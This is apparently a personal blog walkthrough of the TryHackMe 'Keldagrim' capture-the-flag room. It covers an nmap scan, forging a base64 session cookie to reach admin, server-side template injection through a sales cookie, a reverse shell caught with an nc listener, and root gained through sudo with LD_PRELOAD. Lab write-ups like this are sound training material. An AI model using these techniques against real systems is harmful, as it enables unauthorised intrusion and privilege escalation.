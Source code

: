 ```yaml
---
layout: post
current: post
cover: 'assets/images/keldagrim/cover.png'
navigation: True
title: "Keldagrim Write Up"
date: 2021-03-06 00:00:00
tags: [tryhackme, ctf, medium]
class: post-template
subclass: 'post'
author: darryn
---
```

![keldagrim](/assets/images/keldagrim/cover.png)

### Overview

[Keldagrim](https://tryhackme.com/room/keldagrim) is a medium level CTF room on [TryHackMe](https://tryhackme.com) created by [Optional](https://twitter.com/optionalctf).

> Can you overcome the forge and steal all of the gold!

### Nmap

I deployed the machine and was given the target IP 10.10.252.142 I started a nmap scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oN nmap/initial 10.10.252.142
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-06 13:03 GMT
Nmap scan report for 10.10.252.142
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
|_  256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
80/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title:  Home page 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds
```

2 Ports open:

- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Werkzeug httpd 1.0.1

I also ran a full port scan but no additional ports were found.

### Enumeration

I opened up my browser and started to have a look at the web page.

![webpage](/assets/images/keldagrim/webpage.png)

Nothing really stood out however when I looked at the source code I could see a disabled link to /admin

```highlight
    <li class="nav-item dropdown">
        <a class="nav-link dropdown-toggle" href="#" id="navbarDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">
          Buy Gold
        </a>
        <div class="dropdown-menu" aria-labelledby="navbarDropdown">
            <a class="dropdown-item" href="/wow">World of Warcraft</a>
            <a class="dropdown-item" href="/OSRunescape">Old School Runescape</a>
            <a class="dropdown-item" href="/runescape">Runescape3</a>
          <div class="dropdown-divider"></div>
          <a class="dropdown-item " href="/admin">Admin</a>
        </div>
      </li>
</ul>
```

However the page looks pretty much the same. So I looked at cookies and found a session cooke with a base64 value.

![guest](/assets/images/keldagrim/guest.png)

There are lots of ways to change the base64 to plaintext but I really like [CyberChef](https://gchq.github.io/CyberChef/) at the moment. Using CyberChef I was able to see the value was 'guest'.

![cyberchef](/assets/images/keldagrim/cyberchef.png)

I used CyberChef again to encode 'admin' in to base64.

![adminhash](/assets/images/keldagrim/adminhash.png)

Simply changing the session cookie value to the base64 output and refreshing the page now allowed me to see - 'Current user - $2,165' and be provided with a sales cookie.

![sales](/assets/images/keldagrim/sales.png)

This was also base64 encoded, CyberChef has a great feature called 'Magic', if you are unsure how something is encoded use magic to suggest and test various operations.

![saleshash](/assets/images/keldagrim/saleshash.png)

This next bit took some time, I was able to base64 a string and input it in to the sales cookie and it would be displayed on the webpage, however I was unsure how I would be able to use this to get a foothold on the box. After some googling, I tried a technique called Server Side Template Injection (SSTI). This was not something I had tried to exploit before so I did some research on the technique to try and understand it and used [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to see if I was on the right track. 

I found a payload \{\{7\*\'7'\}\} and if I had SSTI that should result in 7777777. I encoded the payload in base64 and updated the sales cookie with the output. 

![sstipayload](/assets/images/keldagrim/sstipayload.png)

Refreshed the page and confirmed I had SSTI in the sales cookie!

![ssti](/assets/images/keldagrim/ssti.png)

### Initial Access

On the same [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) page was an example for remote code execution. I took the example for exploiting an SSTI by calling Popen without guessing the offset, changed the IP and port values and encoded again with base64.

I opened a nc listener and updated the sales cookie with the base64 output and got a shell!

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.252.142] 36928
/bin/sh: 0: can't access tty; job control turned off
$ whoami
jed
$ 
```

### Priv Esc

Now to get root i checked 'sudo -l'.

```highlight
$ sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

I had a look at [GTFOBins](https://gtfobins.github.io/) for '/bin/ps' but as expected I didn't find anything, I also noticed 'env_keep+=LD_PRELOAD'. There is a great course by [Heath Adams](https://twitter.com/thecybermentor) on [udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners) for Linux privesc techinques and this is covered as part of the course. There is also a great [article](https://touhidshaikh.com/blog/2018/04/12/sudo-ld_preload-linux-privilege-escalation/) which covers it.

I used the steps in the article to create a file called evil.c, compiled with GCC. Ran the sudo command with LD_PRELOAD and got root!

```highlight
jed@keldagrim:/dev/shm$ sudo LD_PRELOAD=/dev/shm/evil.so ps
root@keldagrim:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@keldagrim:/dev/shm# 
```

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

